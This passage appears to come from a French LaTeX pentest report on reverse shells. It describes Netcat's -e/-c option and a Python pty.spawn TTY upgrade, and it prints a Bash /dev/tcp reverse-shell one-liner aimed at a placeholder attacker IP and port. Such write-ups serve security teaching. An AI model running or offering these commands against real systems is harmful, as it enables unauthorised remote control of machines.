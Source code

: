 L’option ‘ -e ‘ ou ‘ -c ‘ de Netcat va nous permettre d'exécuter un programme chez un utilisateur distant sur un port donné. Ici, le programme annoncé est : ‘ /bin/sh ‘, soit le shell.\\
Ce type de reverse-shell est extrêmement rapide à mettre en place dès qu’une faille est apparente car les commandes sont intuitives. Cependant, l’attaquant ne reçoit aucune informations au niveau du ‘ tty ‘. Un ‘ tty ‘ est une console virtuelle qui permet de taper des lignes de commandes. Il va donc falloir l’importer afin d’obtenir un reverse-shell digne de ce nom :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \texttt{[image: oui/Screens/Reverse-shell/tty\_importation\_python.PNG]}
  \caption{Importation d'un TTY}
  \label{fig:courbe-tikz}
\end{figure}

Pour remédier à ce problème, nous avons importer des commandes shell grâce à Python. Python est un langage informatique basé sur le C. Son argument ‘ -c ‘ va nous permettre de directement taper du Python sur la même ligne de commande. Le code qui suit est très simple car son fonctionnement est sa propre lecture traduite en français. Ceci nous donne : “ Importe le module pty puis, dans ce dernier, utilise la fonction spawn (faire apparaître) avec l’option ‘ /bin/bash ‘. Donc le module ‘ pty ‘ intègre une fonction qui permet de faire afficher des pseudo-terminaux avec le type de shell que l’on souhaite. Ici, nous avons choisi un bash-shell.\\
Nous obtenons à partir de ce point un bash-shell qui correspond au terminal de la cible.
Nous nous sommes, à partir de ce moment précis, introduits pour la première fois au sein d’une machine cible !

\subsubsection{Bash TCP}

Au sein de cette partie, nous allons utiliser du bash avec une ouverture de port sur un serveur TCP comme ceci :

\begin{center}
    \textbf{bash -i >\& /dev/tcp/ip attaquant/port écoute 0>\&1}
\end{center}

\newpage
Voici un cas d’application réel de ce reverse :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \texttt{[image: oui/Screens/Reverse-shell/Bash\_reverse/localhost\_bash\_tcp\_basique.PNG]}
  \caption{Reverse Bash localhost}
  \label{fig:courbe-tikz}
\end{figure}

